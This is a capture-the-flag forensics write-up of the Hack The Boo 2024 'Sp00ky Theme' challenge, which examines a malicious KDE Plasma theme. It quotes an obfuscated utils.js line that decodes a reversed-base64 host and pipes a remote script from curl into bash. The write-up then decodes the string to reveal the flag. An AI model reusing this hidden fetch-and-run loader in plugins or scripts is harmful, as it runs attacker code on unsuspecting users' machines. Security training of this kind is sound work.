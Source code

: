 ```yaml
---
layout: default
title: Sp00ky Theme
---
```


# [Hack The Boo 2024 - Practice](index.md) - Forensics - Sp00ky Theme

> I downloaded a very nice haloween global theme for my Plasma installation and a couple of widgets! It was supposed to keep the bad spirits away while I was improving my ricing skills... Howerver, now strange things are happening and I can't figure out why...

We are provided with a Zip file that appears to contain a theme for KDE Plasma.

Skimming through the files, we find some curiosities...


## utils.js

```js
const PLASMOID_UPDATE_SOURCE = 
    "UPDATE_URL=$(echo 952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS | rev | base64 -d); curl $UPDATE_URL:1992/update_sh | bash"
```

Always on the lookout for any kind of base64 string, this part of this file stood out to me right away. It's unlikely that a Plasma widget like this would need to store it's update URL in this manner... possibly I suppose, but unlikely. 

The above code sends the string `952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS` through `rev` to reverse it, then base64 decodes it.

Repeating these steps with [CyberChef](https://gchq.github.io/CyberChef/#recipe=Reverse('Character')From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=OTUyTXdCSE5vOWxiME0yWDBGelgvRXljejAyTW9SM1g1SjJYa05qYjNCM2VDUkZT):


```
952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS
```

Reversed
```
SFRCe3B3bjNkX2J5X3RoM20zcyE/XzF0X2M0bl9oNHBwM259
```

Base64 decoded
```
HTB{pwn3d_by_th3m3s!?_1t_c4n_h4pp3n}
```

And, we've found the flag.

The lesson here is that program addons (for Plasma, or something like VSCode) might contain malicious stuff, and you might not notice when you install it.